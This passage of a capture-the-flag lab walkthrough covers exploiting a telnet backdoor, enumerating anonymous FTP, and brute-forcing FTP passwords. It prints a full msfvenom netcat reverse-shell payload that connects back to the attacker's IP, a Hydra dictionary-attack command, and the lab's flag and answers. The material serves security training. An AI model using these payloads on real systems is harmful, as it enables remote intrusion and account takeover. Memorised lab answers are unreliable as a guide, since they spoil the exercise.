machine communicates back to the attacking machine.

The attacking machine has a listening port, on which it receives the
connection, resulting in code or command execution being achieved.

***Answer the questions below***

Okay, let's try and connect to this telnet port!
If you get stuck, have a look at the syntax for connecting outlined above.

*Solution:*

```bash
❯ telnet $ip 8012
Trying 10.10.234.88...
Connected to 10.10.234.88.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
```

***Correct answer: No answer needed***

Great! It's an open telnet connection! What welcome message do we receive?

***Correct answer: SKIDY’S BACKDOOR***

Let's try executing some commands, do we get a return on any
input we enter into the telnet session? (Y/N)

***Correct answer: N***

Hmm... that's strange. Let's check to see if what we're
typing is being executed as a system command.

***Correct answer: No answer needed***

Start a `tcpdump` listener on your local machine.

If using your own machine with the OpenVPN connection, use:

```bash
sudo tcpdump ip proto \\icmp -i tun0
```

If using the AttackBox, use:

```bash
sudo tcpdump ip proto \\icmp -i ens5
```

This starts a tcpdump listener, specifically listening for ICMP traffic,
which pings operate on.

*Solution:*

```bash
❯ sudo tcpdump ip proto \\icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

***Correct answer: No answer needed***

Now, use the command "`ping [local THM ip] -c 1`" through the telnet session
to see if we're able to execute system commands.
Do we receive any pings? Note, you need to preface this with `.RUN` (Y/N)

*Solution:* I am using my own machine with OpenVPN.

To find my own address, look at the [access page](https://tryhackme.com/access)



In the Telnet session:

```bash
.RUN ping 10.9.0.168 -c 1
```

Then, in the other Terminal window with the TCP listener, we see:

```bash
❯ sudo tcpdump ip proto \\icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
11:16:36.951835 IP 10.10.234.88 > spam-B450M-S2H: ICMP echo request, id 1286, seq 1, length 64
11:16:36.951872 IP spam-B450M-S2H > 10.10.234.88: ICMP echo reply, id 1286, seq 1, length 64
```

***Correct answer: Y***

Great! This means that we are able to execute system commands AND
that we are able to reach our local machine. Now let's have some fun!

***Correct answer: No answer needed***

We're going to generate a reverse shell payload using `msfvenom`.
This will generate and encode a netcat reverse shell for us.
Here's our syntax:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

- `-p` = payload
- `lhost` = our local host IP address (this is your machine's IP address)
- `lport` = the port to listen on (this is the port on your machine)
- `R` = export the payload in raw format

What word does the generated payload start with?

*Solution:* First I had to install Metasploit framework on my own PC:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall
# Then run first-time setup:
msfconsole
```

Now `msfvenom` is available on my PATH.

To figure out the IP for the OpenVPN connection, use `ifconfig`

```bash
❯ ifconfig tun0
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.9.0.168  netmask 255.255.0.0  destination 10.9.0.168
        inet6 fe80::4f2a:ed4f:6106:1eef  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 114677  bytes 4599098 (4.5 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 115991  bytes 6990060 (6.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Finally, I used

```bash
❯ msfvenom -p cmd/unix/reverse_netcat lhost=10.9.0.168 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 96 bytes
mkfifo /tmp/ejqzmj; nc 10.9.0.168 4444 0</tmp/ejqzmj | /bin/sh >/tmp/ejqzmj 2>&1; rm /tmp/ejqzmj
```

The payload is

```bash
mkfifo /tmp/ejqzmj; nc 10.9.0.168 4444 0</tmp/ejqzmj | /bin/sh >/tmp/ejqzmj 2>&1; rm /tmp/ejqzmj
```

***Correct answer: mkfifo***

Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

```bash
nc -lvnp [listening port]
```

What would the command look like for the listening port we selected in our payload?

***Correct answer: nc -lvnp 4444***

Great! Now that's running, we need to copy and paste our msfvenom
payload into the telnet session and run it as a command.
Hopefully- this will give us a shell on the target machine!

*Solution:* First, I had to turn off my Firewall, so that I can receive incoming
connection from the Telnet session (on Ubuntu, I used GUFW GUI).
Because my Firewall was set to "Deny" all incoming connections.



Then run the netcat listener

```bash
nc -lvnp 4444
```

Now run the payload inside the Telnet session

```bash
.RUN mkfifo /tmp/ejqzmj; nc 10.9.0.168 4444 0</tmp/ejqzmj | /bin/sh >/tmp/ejqzmj 2>&1; rm /tmp/ejqzmj
```

Then netcat shows:

```bash
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.234.88 56284
# there is no other output, but the reverse shell is active, so try some commands:
ls
flag.txt
cat flag.txt
THM{y0u_g0t_th3_t3ln3t_fl4g}
```

***Correct answer: No answer needed***

Success! What is the contents of flag.txt?

***Correct answer: THM{y0u_g0t_th3_t3ln3t_fl4g}***

## Task 8: Understanding FTP

### What is FTP?

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote
transfer of files over a network. It uses a client-server model to do this,
and, as we'll come on to later, relays commands and data in a very efficient way.

### How does FTP work?

A typical FTP session operates using two channels:

- a command (sometimes called the control) channel
- a data channel.

As their names imply, the command channel is used for transmitting commands as well as
replies to those commands, while the data channel is used for transferring data.

FTP operates using a client-server protocol. The client initiates a
connection with the server, the server validates whatever
login credentials are provided and then opens the session.

While the session is open, the client may execute FTP commands on the server.

### Active vs Passive

The FTP server may support either Active or Passive connections, or both.

- In an Active FTP connection, the client opens a port and listens.
The server is required to actively connect to it.
- In a Passive FTP connection, the server opens a port and
listens (passively) and the client connects to it.

This separation of command information and data into separate channels is a way of being
able to send commands to the server without having to wait for the current data transfer
to finish. If both channels were interlinked, you could only enter commands in between
data transfers, which wouldn't be efficient for either large file transfers,
or slow internet connections.

### More Details

You can find more details on the technical function, and implementation of, FTP on the
Internet Engineering Task Force website: <https://www.ietf.org/rfc/rfc959.txt>. The IETF
is one of a number of standards agencies, who define and regulate internet standards.

***Answer the questions below***

What communications model does FTP use?

***Correct answer:***

What's the standard FTP port?

***Correct answer:***

How many modes of FTP connection are there?

***Correct answer:***

## Task 9: Enumerating FTP

### Let's Get Started

Before we begin, make sure to deploy the room and give it some time to boot.
Please be aware, this can take up to five minutes so be patient!

### Enumeration

By now, I don't think I need to explain any further how enumeration is key when attacking
network services and protocols. You should, by now, have enough experience with nmap to
be able to port scan effectively. If you get stuck using any tool- you can always use
"`tool [-h / -help / --help]`" to find out more about it's function and syntax.
Equally, man pages are extremely useful for this purpose.
They can be reached using "`man [tool]`".

### Method

We're going to be exploiting an anonymous FTP login, to see what files we can access- and
if they contain any information that might allow us to pop a shell on the system.
This is a common pathway in CTF challenges,
and mimics a real-life careless implementation of FTP servers.

### Resources

As we're going to be logging in to an FTP server, we will need to make sure an FTP client
is installed on the system. There should be one installed by default on most Linux
operating systems, such as Kali or Parrot OS. You can test if there is one by typing
"ftp" into the console. If you're brought to a prompt that says: "ftp>", then you have a
working FTP client on your system. If not, it's a simple matter of using "sudo apt
install ftp" to install one.

### Alternative Enumeration Methods

It's worth noting  that some vulnerable versions of in.ftpd and some other FTP server
variants return different responses to the "cwd" command for home directories which exist
and those that don’t. This can be exploited because you can issue cwd commands before
authentication, and if there's a home directory- there is more than likely a user account
to go with it. While this bug is found mainly within legacy systems,
it's worth knowing about, as a way to exploit FTP.

This vulnerability is documented at: <https://www.exploit-db.com/exploits/20745>

Now we understand our toolbox, let's do this.

***Answer the questions below***

Run an nmap scan of your choice.
How many ports are open on the target machine?

***Correct answer:***

What port is ftp running on?

***Correct answer:***

What variant of FTP is running on it?

***Correct answer:***

Great, now we know what type of FTP server we're dealing with we can check to see if we
are able to login anonymously to the FTP server. We can do this using by typing
"`ftp [IP]`" into the console, and entering "anonymous", and no password when prompted.

What is the name of the file in the anonymous FTP directory?

***Correct answer:***

What do we think a possible username could be?

***Correct answer:***

Great! Now we've got details about the FTP server and, crucially,
a possible username. Let's see what we can do with that...

***Correct answer: No answer needed***

## Task 10: Exploiting FTP

### Types of FTP Exploit

Similarly to Telnet, when using FTP both the command and data channels are unencrypted.
Any data sent over these channels can be intercepted and read.

With data from FTP being sent in plaintext, if a man-in-the-middle attack took place an
attacker could reveal anything sent through this protocol (such as passwords). An article
written by JSCape demonstrates and explains this process using ARP-Poisoning to trick a
victim into sending sensitive information to an attacker, rather than a legitimate source.

When looking at an FTP server from the position we find ourselves in for this machine,
an avenue we can exploit is weak or default password configurations.

### Method Breakdown

So, from our enumeration stage, we know:

- There is an FTP server running on this machine
- We have a possible username

Using this information, let's try and bruteforce the password of the FTP Server.

### Hydra

Hydra is a very fast online password cracking tool, which can perform rapid dictionary
attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS,
SMB, several databases and much more. Hydra is already installed on the
AttackBox, however, if you need it on your own attacking machine,
you can find the [GitHub repository here](https://github.com/vanhauser-thc/thc-hydra).

The syntax for the command we're going to use to find the passwords is this:

```bash
hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp
```

Let's break it down:

|SECTION|FUNCTION|
|:-|:-|
|hydra                   |Runs the hydra tool|
|-t 4                    |Number of parallel connections per target|
|-l [user]               |Points to the user who's account you're trying to compromise|
|-P [path to dictionary] |Points to the file containing the list of possible passwords|
|-vV                     |Sets verbose mode to very verbose, shows the login+pass combination for each attempt|
|[machine IP]            |The IP address of the target machine|
|ftp / protocol          |Sets the protocol|

Let's crack some passwords!

***Answer the questions below***

What is the password for the user "mike"?

***Correct answer:***

Bingo! Now, let's connect to the FTP server as this user using
"`ftp [IP]`" and entering the credentials when prompted.

***Correct answer: No answer needed***

What is `ftp.txt`?

***Correct answer:***

## Task 11: Expanding Your Knowledge

### Further Learning

There is no checklist of things to learn until you've officially learnt everything you
can. There will always be things that surprise us all, especially in the sometimes
abstract logical problems of capture the flag challenges. But, as with anything, practice
makes perfect. We can all look back on the things we've learnt after completing something
challenging and I hope you feel the same about this room.

### Reading

Here's some things that might be useful to read after
completing this room, if it interests you:

- <https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef>
- <https://attack.mitre.org/techniques/T1210/>
- <https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/>

### Thank you

Thanks for taking the time to work through this room,
I wish you the best of luck in future. ~ Polo

***Answer the questions below***

Well done, you did it!

***Correct answer:***
